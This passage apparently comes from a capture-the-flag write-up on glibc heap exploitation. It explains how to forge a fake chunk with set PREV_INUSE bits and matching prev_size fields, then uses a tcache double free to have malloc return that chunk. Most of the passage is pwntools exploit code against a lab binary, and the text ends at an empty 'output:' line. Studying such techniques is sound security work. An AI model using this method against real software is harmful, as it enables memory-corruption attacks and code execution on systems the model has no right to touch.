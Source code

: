 ```py
name_p = 0x6020e0
fake_chunk_p = name_p + 16

fake_chunk = fit({
    0x8: 0x90,
}, fill='\x00', length=0xc8)
```

**3**

To avoid consolidation of our chunk we need to trick free into thinking that surrounding chunks are allocated. Avoiding consolidation with the previous chunk is simple we just set the PREV_INUSE bit of our fake chunk. i.e. we change the size field to 0x91. In order to avoid consolidation with the next chunk we must set the PREV_INUSE bit of the chunk after the next chunk. We fake another two chunks which are small enought to fit into our buffer, the minimum size is 0x10 so we create two such chunks at offset 0x90 in the fake chunk.
```py
fake_chunk = fit({
    0x8: 0x91,
	0x98: 0x10,
	0xa8: 0x11,
}, fill='\x00', length=0xc8)
```
**4 + 5**

The above chunk will still not work since free detects that the PREV_INUSE bit is not set for the next chunk. So we also make sure that field is set. Furthermore free detects a mismatch between the size of our fake chunk size and prev_size of the next chunk, so we also set this to 0x90. After these modifications we have crafted a valid chunk that will not be put in tcache or fastbins. The following code will free the fake chunk and print the name buffer.

```py
name_p = 0x6020e0
fake_chunk_p = name_p + 16

fake_chunk = fit({
    0x8: 0x91,
    0x90: 0x90,
    0x98: 0x11,
    0xa8: 0x11,
}, filler='\x00', length=0xc8)

io.sendafter('whats your name > ', fake_chunk)

malloc(0x88, 'B'*8)
free()
free()

malloc(0x88, p64(fake_chunk_p))
malloc(0x88, 'C'*8)
malloc(0x88, 'TEST\x00')
free()

secret_name()
io.interactive()
```
output:
